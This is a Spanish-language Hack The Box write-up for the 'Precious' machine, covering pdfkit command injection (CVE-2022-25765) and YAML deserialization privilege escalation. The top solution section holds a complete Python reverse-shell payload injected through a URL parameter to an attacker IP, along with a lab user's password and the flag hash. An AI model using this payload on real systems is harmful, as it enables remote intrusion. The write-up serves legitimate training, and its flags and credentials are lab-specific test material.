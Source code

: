# Hack The Box
    
  

  ![](portada.png)
  
## Máquina Precious

  



### Solución
    
    USER FLAG: "henry:Q3c1AqGHtoI0aXAYFH" >> /home/henry/user.txt >> 112bb323ac23f4a06b02be2e6d4a05b3
    
    ROOT FLAG: 
    
    REVERSE SHELL: http://10.10.14.253/?name=%20`python3 -c 'import 
    socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.253",9001));
    os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'` 
   

### Escaneo nmap

![](nmap.png)

### Añadimos el dominio al etc/hosts

![](redirect.png)

### Abrimos la página

![](1.png)

### Testeamos sus funciones con la url

![](2.png)

### Abriendo server en python

El server tiene un servicio que convierte páginas web en pdf, para ello necesitamos tener un servidor ejecutándose en nuestra máquina.

![](3.png)

### Descarga y análisis del pdf

Analizando los metadatos vemos que el pdf fué creado con pdfkit v0.8.6 el cual tiene un CVE-2022-25765 el cual nos dice que una app podría ser vulnerable si intenta representar una URL que tiene parámetros de cadena de consulta con la entrada del usuario.


![](4.png)

![](5.png)

![](6.png)

![](7.png)

### Reverse shell

Abriremos un oyente con netcat e introducimos nuestra reverse shell dentro de las comillas del código anterior, una vez hecho esto tendremos una shell.

![](8.png)

![](9.png)

![](10ng)

### Capturando la flag

Navegando entre directorios encontramos en el /home/henry un archivo llamado user.txt el cual no nos dejará acceder con los permisos actuales, en el archivo .bundle encontramos una password del usuario henry y ya podemos leer nuestra flag

![](11.png)

![](12.png)

![](13.png)

### Escalada de privilegios a ROOT

Haciendo sudo -l listamos lo que podemos ejecutar desde esta cuenta de usuario y que descubrimos henry puede ejecutar como root el archivo /opt/update_dependecies.rb el cual tras un vistazo al código vemos que usa YAML.LOAD que es vulnerable al ataque de deserialización, para esto necesitamos crear una carga dentro de un archivo llamado dependencies.yml.

![](14.png)

![](15.png)

![](16.png)


**Autor:** [AlbertoMiñan](https://github.com/albertominan)
